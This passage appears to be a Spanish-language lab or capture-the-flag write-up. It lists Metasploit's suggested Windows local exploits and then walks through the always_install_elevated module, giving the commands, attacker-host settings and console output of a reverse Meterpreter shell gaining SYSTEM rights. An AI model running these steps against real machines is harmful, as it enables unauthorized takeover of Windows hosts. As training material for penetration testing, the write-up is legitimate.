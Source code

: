 ```
 1   exploit/windows/local/always_install_elevated                  Yes                      The target is vulnerable.
 2   exploit/windows/local/bypassuac_comhijack                      Yes                      The target appears to be vulnerable.
 3   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
 4   exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move   Yes                      The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!                                                                                                              
 5   exploit/windows/local/ms10_092_schelevator                     Yes                      The service is running, but could not be validated.
 6   exploit/windows/local/ms14_058_track_popup_menu                Yes                      The target appears to be vulnerable.
 7   exploit/windows/local/ms15_051_client_copy_image               Yes                      The target appears to be vulnerable.
 8   exploit/windows/local/ntusermndragover                         Yes                      The target appears to be vulnerable.
 9   exploit/windows/local/tokenmagic                               Yes                      The target appears to be vulnerable.
```

El `exploit` que nos llama la atencion es el siguiente:

```
[+] 192.168.1.163 - exploit/windows/local/always_install_elevated: The target is vulnerable.
  This module checks the AlwaysInstallElevated registry keys which 
  dictates if .MSI files should be installed with elevated privileges 
  (NT AUTHORITY\SYSTEM). The generated .MSI file has an embedded 
  executable which is extracted and run by the installer. After 
  execution the .MSI file intentionally fails installation (by calling 
  some invalid VBS) to prevent it being registered on the system. By 
  running this with the /quiet argument the error will not be seen by 
  the user.
```

Por lo que vamos a utilizarlo.

```shell
use exploit/windows/local/always_install_elevated
```

Ahora vamos a configurarlo:

```shell
set SESSION <ID_SESSION>
set LHOST <IP_ATTACKER>
set LPORT <PORT>
exploit
```

Info:

```
[*] Started reverse TCP handler on 192.168.1.146:5555 
[*] Uploading the MSI to C:\Users\ftpuser\AppData\Local\Temp\danJqVOY.msi ...
[*] Executing MSI...
[*] Sending stage (177734 bytes) to 192.168.1.163
[+] Deleted C:\Users\ftpuser\AppData\Local\Temp\danJqVOY.msi
[*] Meterpreter session 2 opened (192.168.1.146:5555 -> 192.168.1.163:49182) at 2025-03-30 04:47:26 -0400

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
